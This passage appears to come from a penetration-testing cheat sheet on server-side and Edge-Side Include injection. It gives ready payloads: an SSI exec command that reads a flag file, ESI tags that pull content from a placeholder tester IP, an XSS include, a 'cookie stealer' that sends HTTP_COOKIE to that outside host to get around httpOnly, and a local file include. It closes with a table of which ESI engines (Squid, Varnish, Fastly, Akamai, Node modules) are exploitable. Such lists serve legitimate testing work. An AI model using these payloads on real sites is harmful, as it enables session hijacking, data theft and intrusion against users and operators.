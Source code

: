 ```html
<!--#exec cmd="cat .htaccess.flag" -->
```

## Edge-Side Includes (ESI)
### ESI Tags for detecting ESI Injection
#### Basic detection
```html
<esi: include src=http://<PENTESTER IP>>
```
#### XSS Exploitation Example
```html
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>
```
#### Cookie Stealer (bypass httpOnly flag)
```HTML
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>
```
#### Introduce private local files (Not LFI per se)
```html
<esi:include src="supersecret.txt">
```
#### Valid for Akamai, sends debug information in the response
```html
<esi:debug/>
```

In some cases, we can achieve remote code execution when the application processing ESI directives supports XSLT by passing `dca=xslt` to the payload

|**Software**|**Includes**|**Vars**|**Cookies**|**Upstream Headers Required**|**Host Whitelist**|
|:-:|:-:|:-:|:-:|:-:|:-:|
|Squid3|Yes|Yes|Yes|Yes|No|
|Varnish Cache|Yes|No|No|Yes|Yes|
|Fastly|Yes|No|No|No|Yes|
|Akamai ESI Test Server (ETS)|Yes|Yes|Yes|No|No|
|NodeJS esi|Yes|Yes|Yes|No|No|
|NodeJS nodesi|Yes|No|No|No|Optional|
- Includes: Supports the `<esi:includes>` directive
- Vars: Supports the `<esi:vars>` directive. Useful for bypassing XSS Filters
- Cookie: Document cookies are accessible to the ESI engine
- Upstream Headers Required: Surrogate applications will not process ESI statements unless the upstream application provides the headers
- Host Allowlist: In this case, ESI includes are only possible from allowed server hosts, making SSRF, for example, only possible against those hosts
